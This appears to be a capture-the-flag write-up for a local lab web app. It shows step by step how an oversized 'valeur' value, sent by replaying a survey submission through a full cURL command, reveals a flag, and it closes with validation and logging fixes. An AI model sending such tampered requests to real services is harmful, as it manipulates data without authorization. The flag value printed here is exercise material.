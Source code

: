 # Breach Name: Parameter Tampering in Survey Grade Submission
## Description of the Breach

This breach was identified on the survey page of the website, where an input parameter used to submit survey grades was vulnerable to manipulation. By intercepting the request and modifying the grade value to an excessively large number, we were able to retrieve a hidden flag.

## Steps to Reproduce

1. Navigate to the Survey Page:
	- From the homepage, go to the survey page:
	  ```bash
	  http://localhost:8080/index.php?page=survey
	  ```

2. Inspect the Network Request:
	- Use the browser's developer tools to open the "Network" tab. Change the survey grade on the page, and observe the POST request that is made when the grade is submitted.

3. Copy the Request as cURL:
	- Right-click on the identified request and select "Copy as cURL". This provides a cURL command that you can use to replay and modify the request.

4. Modify the Grade Value:
	- In the copied cURL command, modify the `valeur` parameter to a very large number:
	  ```bash
	  curl 'http://localhost:8080/index.php?page=survey' \
	  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8' \
	  -H 'Accept-Language: en-US,en' \
	  -H 'Cache-Control: max-age=0' \
	  -H 'Connection: keep-alive' \
	  -H 'Content-Type: application/x-www-form-urlencoded' \
	  -H 'Cookie: csrftoken=6la8Whx71kgYwiu1HUqby8bGHiSkJf2j9rlT80LuniGLvkJzAtbJNOx4EK5rXVKe; sessionid=wkyan96hdzkvna3h6vfkck2lbsci7d30; I_am_admin=' \
	  -H 'Origin: http://localhost:8080' \
	  -H 'Referer: http://localhost:8080/index.php?page=survey' \
	  -H 'Sec-Fetch-Dest: document' \
	  -H 'Sec-Fetch-Mode: navigate' \
	  -H 'Sec-Fetch-Site: same-origin' \
	  -H 'Sec-Fetch-User: ?1' \
	  -H 'Sec-GPC: 1' \
	  -H 'Upgrade-Insecure-Requests: 1' \
	  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36' \
	  -H 'sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Brave";v="126"' \
	  -H 'sec-ch-ua-mobile: ?0' \
	  -H 'sec-ch-ua-platform: "Linux"' \
	  --data-raw 'sujet=3&valeur=200000000000000000000000000000000000000'
	  ```
	  Explanation: This command modifies the grade value (`valeur`) to an extremely large number, far beyond the expected input range.

5. Execute the cURL Command:
	- Run the modified cURL command in your terminal. The server processes the request and responds with a hidden message.

6. Retrieve the Flag:
	- The server's response includes the following HTML, revealing the flag:
	  ```html
	  <h2 style="margin-top:50px;"> The flag is 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa</h2>
	  ```
	  Flag: 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa

## Explanation of the Breach

The vulnerability here is a Parameter Tampering flaw, where user input on the survey page is not properly validated. By modifying the `valeur` parameter to an unusually large number, we exploited the lack of input validation to trigger an unintended server response, revealing a hidden flag.

## How to Fix the Breach

1. Implement Server-Side Input Validation:
	- Ensure that all input values are validated on the server side, particularly those related to critical functions like survey submissions. The input should be checked for acceptable ranges, types, and formats.

2. Enforce Proper Data Types:
	- Limit the input values to a specific data type and range that aligns with the application's requirements (e.g., integers within a certain range for survey grades).

3. Use Stronger Error Handling:
	- Implement robust error handling that can gracefully manage unexpected inputs and prevent the application from exposing sensitive information or behaving unpredictably.

4. Monitor and Log Suspicious Activity:
	- Implement logging and monitoring to detect unusual or suspicious input patterns, such as excessively large numbers or repeated tampering attempts.

5. Implement Rate Limiting:
	- Apply rate limiting on sensitive endpoints to reduce the risk of automated or brute-force attacks attempting to exploit similar vulnerabilities.